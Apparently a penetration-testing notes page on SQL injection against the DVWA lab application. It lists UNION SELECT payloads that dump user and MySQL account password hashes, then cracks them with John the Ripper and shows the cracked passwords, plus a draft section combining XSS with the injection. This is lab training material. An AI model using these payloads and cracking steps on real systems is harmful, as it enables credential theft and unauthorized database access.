 # 02 - Data Collection

Search Tag: #sql-injection #union #credential-access-and-dumping #data-exfiltration #dvwa

## 2.1 - Dump Credentials

### 2.1.1 - Current Database Credentials

- This is useful when grabbing the credentials to find a login panel with administrative privileges. Moreover, it is possible to reuse the credentials when facing network protocols. Let's query the credentials from the current database.

```sql
' UNION SELECT user, password FROM users#
```

![[01 - Query Credentials From Current Database.png]]

- Let's concatenate it to organize it nicely.

```sql
' UNION SELECT user || ':' || password, NULL FROM users#

' UNION SELECT concat(user,':',password), NULL FROM users#

' UNION SELECT concat(user,0x3a,password), NULL FROM users#

' UNION SELECT group_concat(user,':',password), NULL FROM users#

' UNION SELECT group_concat(user,0x3a,password), NULL FROM users#

' UNION SELECT concat(user,'~',password), NULL FROM users#

' UNION SELECT group_concat(user,'~',password), NULL FROM users#

' UNION SELECT concat(user,'\n',password), NULL FROM users#

' UNION SELECT concat(user,0x0a,password), NULL FROM users#

' UNION SELECT group_concat(user,0x0a,password), NULL FROM users#
```

![[02 - Harvest Credentials via GROUP_CONCAT From Current Database.png]]

- Copy the concatenated usernames and hashed credentials and output it in a file.

```
$ echo "admin:5f4dcc3b5aa765d61d8327deb882cf99,gordonb:e99a18c428cb38d5f260853678922e03,1337:8d3533d75ae2c3966d7e0d4fcc69216b,pablo:0d107d09f5bbe40cade3de5c71e9e9b7,smithy:5f4dcc3b5aa765d61d8327deb882cf99" | tr "," "\n" > current_db_hashes.txt
```

### 2.1.2 - Crack Current Database Password Hashes

- Let's identify what hash algorithm it uses before we could crack it. Let's run [[Identify Hash#^f93d17|Name-That-Hash]].

```
$ nth --no-banner --no-hashcat --text '5f4dcc3b5aa765d61d8327deb882cf99'

5f4dcc3b5aa765d61d8327deb882cf99

Most Likely 
MD5, JtR: raw-md5 Summary: Used for Linux Shadow files.
MD4, JtR: raw-md4
NTLM, JtR: nt Summary: Often used in Windows Active Directory.
Domain Cached Credentials, JtR: mscach

Least Likely
Domain Cached Credentials 2, JtR: mscach2 Double MD5,  Tiger-128,  Skein-256(128),  Skein-512(128),  Lotus Notes/Domino 5, JtR: lotus5 
md5(md5(md5($pass))), Summary: Hashcat mode is only supported in hashcat-legacy. md5(uppercase(md5($pass))),  md5(sha1($pass)),  
md5(utf16($pass)), JtR: dynamic_29 md4(utf16($pass)), JtR: dynamic_33 md5(md4($pass)), JtR: dynamic_34 Haval-128, JtR: haval-128-4 RIPEMD-128, 
JtR: ripemd-128 MD2, JtR: md2 Snefru-128, JtR: snefru-128 DNSSEC(NSEC3),  RAdmin v2.x, JtR: radmin Cisco Type 7,  BigCrypt, JtR: bigcrypt
```

- We will crack the `raw-md5` hashes with [[Tactics && Techniques && Procedures (TTPs) Phases/Initial Access/Password Cracking/Offline/JTR|John The Ripper (JTR)]] with a dictionary attack using `/usr/share/wordlists/rockyou.txt.gz` wordlist.

```
$ sudo gzip -k -d /usr/share/wordlists/rockyou.txt.gz > /usr/share/wordlists/rockyou.txt
```

- All the hashed credentials are cracked.

```
$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt current_db_hashes.txt
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
password         (admin)
abc123           (gordonb)
letmein          (pablo)
charley          (1337)
4g 0:00:00:00 DONE (2023-10-04 10:51) 80.00g/s 61440p/s 61440c/s 92160C/s my3kids..dangerous
Warning: passwords printed above might not be all those cracked
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

TODO: Add XSS for easier view

```sql
' UNION SELECT group_concat(user,':',password), <script>alert()</script>, NULL FROM users#

' UNION SELECT group_concat(user,':',password), <hex_encoded_XSS>, NULL FROM users#

' <script>alert(UNION SELECT group_concat(user,':',password), NULL FROM users)</script>#

' <script>alert(UNION SELECT group_concat(user,0x3a,password), NULL FROM users)</script>#
```

### 2.1.3 - MySQL Hashdump

- This will be useful for authenticating the MySQL DBMS server with an exposed port that allows the attacker the harvest the whole database. In addition, sometimes system administrators reuse the credentials which gives the attacker a leverage authenticate it remotely. Run a port scanner with a fingerprinting tool `nmap` to find open ports. Let's query the credentials from the MySQL server database.

```sql
' UNION SELECT user, password FROM mysql.user#
```

![[03 - Query Hashdump Credentials From MySQL Database Server.png]]

```sql
' UNION SELECT user || ':' || password, NULL FROM mysql.user#

' UNION SELECT concat(user,':',password), NULL FROM mysql.user#

' UNION SELECT concat(user,0x3a,password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,':',password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,0x3a,password), NULL FROM mysql.user#

' UNION SELECT concat(user,'~',password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,'~',password), NULL FROM mysql.user#

' UNION SELECT concat(user,'\n',password), NULL FROM mysql.user#

' UNION SELECT concat(user,0x0a,password), NULL FROM mysql.user#

' UNION SELECT group_concat(user,0x0a,password), NULL FROM mysql.user#
```

![[04 - Harvest Hashdump Credentials via GROUP_CONCAT FROM MySQL Database Server.png]]

- Copy the concatenated hashdumped credentials and output it in a file.

```
$ echo "root:*4F56EF3FCEF3F995F03D1E37E2D692D420111476,dvwa:*D7E39C3AF517EC9EF7086223B036E0B4F22821F8" | tr "," "\n" > mysql_hashes.txt
```

### 2.1.4 - Crack MySQL Server Password Hashes

- Let's identify what hash algorithm it uses before we could crack it. Let's run [[Identify Hash#^0f21a0|HashID]].

```
$ hashid -j "*4F56EF3FCEF3F995F03D1E37E2D692D420111476"
Analyzing '*4F56EF3FCEF3F995F03D1E37E2D692D420111476'
[+] MySQL5.x [JtR Format: mysql-sha1]
[+] MySQL4.1 [JtR Format: mysql-sha1]
```

- We will crack the `mysql-sha1` hashes with [[Tactics && Techniques && Procedures (TTPs) Phases/Initial Access/Password Cracking/Offline/JTR|John The Ripper (JTR)]] with a dictionary attack using `/usr/share/wordlists/rockyou.txt.gz` wordlist.

```
$ john --format=mysql-sha1 --wordlist=/usr/share/wordlists/rockyou.txt mysql_hashes.txt
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (mysql-sha1, MySQL 4.1+ [SHA1 256/256 AVX2 8x])
Warning: no OpenMP support for this hash type, consider --fork=2
Press 'q' or Ctrl-C to abort, almost any other key for status
p@ssw0rd         (dvwa)     
1g 0:00:00:01 DONE (2023-10-04 15:27) 0.5617g/s 8057Kp/s 8057Kc/s 8063KC/sa6_123..*7¡Vamos!
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

---
## References

- [SecurityIdiots: XSS Injection with SQLi (XSSQLi)](https://www.securityidiots.com/Web-Pentest/SQL-Injection/xss-injection-with-sqli-xssqli.html)